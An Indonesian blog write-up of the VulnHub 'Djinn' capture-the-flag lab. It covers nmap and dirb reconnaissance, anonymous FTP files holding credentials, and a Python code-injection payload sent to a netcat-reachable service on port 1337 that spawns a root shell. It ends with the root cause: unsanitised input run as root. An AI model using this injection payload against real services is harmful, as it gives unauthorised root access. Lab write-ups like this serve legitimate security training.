```yaml
---
title: '[VulnHub] Djinn WriteUp'
date: 2019-12-21T20:09+07:00
categories: blog
tags:
  - vulnhub
  - writeup
  - code injection
  - python
---
```


## Information Gathering
### nmap

`nmap -sC -sV -p- djinn.vh -v -oN initial.nmap
```
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20 23:54 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21 00:23 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21 00:23 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.43.192
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh
1337/tcp open     waste?
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '/', 1)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '-', 2)
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
```
Ada `ftp` di port 21, `ssh` di port 22 tapi filtered, `http` di port `7331`, dan netcat(?) di port `1337`.

### ftp
Login ke `ftp` dan download file `creds.txt`, `game.txt`, `message.txt`.  

*games.txt*
```
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
```

*creds.txt*
```
nitu:81299
```

*message.txt*
```
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

### dirb
`dirb http://djinn.vh/ /usr/share/wordlists/big.txt`

```
GENERATED WORDS: 20458                                                         

---- Scanning URL: http://djinn.vh:7331/ ----
+ http://djinn.vh:7331/genie (CODE:200|SIZE:1676)                                                                                          
                                                                                                                                           
(!) FATAL: Too many errors connecting to host
    (Possible cause: EMPTY REPLY FROM SERVER)
                                                                               
-----------------
END_TIME: Sat Dec 21 20:14:37 2019
DOWNLOADED: 16063 - FOUND: 1
```
Berhubung `dirb`nya ternyata error cuma nemu satu dir dan saya terlalu males buat `dirb` atau enum 
ulang. Saya asumsikan attack vectornya bukan dari web.  

*index.html*
![index](/assets/Djinn/djinn.png){: img_content }

*/genie*
![genie](/assets/Djinn/genie.png){: img_content }


### 1337
`nc djinn.vh 1337`
```
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(1, '-', 2)
>
```
Karena dari point `http-server-header` dari hasil scan `nmap` menggunakan backend python, mungkin flask(?). Saya iseng untuk melakukan code injection `__import__('os').system('/bin/sh')` ke port ini... dan ternyata work dan kita langsung mendapat user `root` :haha:
![root](/assets/images/Djinn/djinn.png){: img_content }  

Tinggal cari flag rootnya lalu selesai :rofl:
![root](/assets/images/Djinn/rootflag.png){: img_content }

Sebenernya attack vector ini murni hoki karena gak ada indikator bahwa app yang berjalan di port 1337 tadi menggunakan python. Seharusnya code injection dilakukan di web server di `http://djinn.vh/wish` seperti yang dilakukan di [artikel ini](https://www.hackingarticles.in/djinn1-vulnhub-walkthrough/). 

Setelah ditelusuri source code aplikasi di port 1337 tersebut ada di `/opt/1337/app.py`. Code injection tersebut bisa berjalan karena tidak adanya filtering/sanitization input dari user dan penggunaan versi python yang outdated (v2.7.15), dan ditambah app tersebut dijalankan oleh user `root`.

Sekian writeup kali ini, see ya!



